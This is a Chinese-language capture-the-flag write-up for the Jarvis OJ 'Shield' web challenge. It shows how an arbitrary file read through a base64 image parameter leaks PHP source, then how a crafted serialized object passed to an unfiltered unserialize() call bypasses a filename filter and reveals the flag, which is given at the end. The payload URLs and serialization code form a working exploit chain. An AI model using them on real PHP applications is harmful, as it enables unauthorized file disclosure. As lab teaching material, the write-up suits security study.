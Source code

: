 ## 描述

这里有个通向神盾局内部网络的秘密入口，你能通过漏洞发现神盾局的秘密吗？

题目入口：http://web.jarvisoj.com:32768/

```html
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

图片请求的链接是 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLmpwZw==

图片我保存到了 [shield.jpg](./assets/shield.jpg)

## 题解

`strings` 和 `binwalk` 了下这个照片，没发现啥信息。打开 010 Editor 也没看出啥，估计这个图片不是关键点所在。

用 Base64 解密 `c2hpZWxkLmpwZw==` 得到 `shield.jpg`，似乎用处不大。

尝试伪造一个文件名 `shielde.jpg`，得到

```html
<br />
<b>Warning</b>:  readfile(shielde.jpg): failed to open stream: No such file or directory in <b>/opt/lampp/htdocs/showimg.php</b> on line <b>7</b><br />
```

似乎要伪造这个参数来搞事情？不会不会，看题解。

麻蛋。。。。。。。这不就可以任意文件读取了吗。。。

先看看这个 `showimg.php`，http://web.jarvisoj.com:32768/showimg.php?img=c2hvd2ltZy5waHA= ，得到

```php
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	}
?>
```

然后又不会了。。。继续看题解。。。麻蛋，居然有 `index.php` 这玩意，构造链接 http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw 然后得到

```php
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

有个 `shield.php`，继续看下去 http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```

好的，看到注释了没？访问 http://web.jarvisoj.com:32768/showimg.php?img=cGN0Zi5waHA=

但是，居然不行！问题出在最开始的 `showimg.php` 里，那里有一个判断路径里不能出现 `pctf`。

查询一下官方文档 `stripos` 这个函数，没啥发现。看题解！发现自己漏关注了 `index.php` 这个文件。。

这个文件里有一个 `class` 的参数！可以赋值到 `x` 内，同时 `class` 是无过滤的！所以我们初始化一个 `filename` 为 `pctf.php` 的 `Shield`，然后序列化传到 `class` 参数。稳！

找个地方运行

```php
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
	}
	$x = new Shield("pctf.php");
	echo serialize($x);
```

得到 `O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}`，所以构造链接 http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;} 便可以得到

```html
<?php 
	//Ture Flag : PCTF{W3lcome_To_Shi3ld_secret_Ar3a}
	//Fake flag:
	echo "FLAG: PCTF{I_4m_not_fl4g}"
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```

## 答案

PCTF{W3lcome_To_Shi3ld_secret_Ar3a}

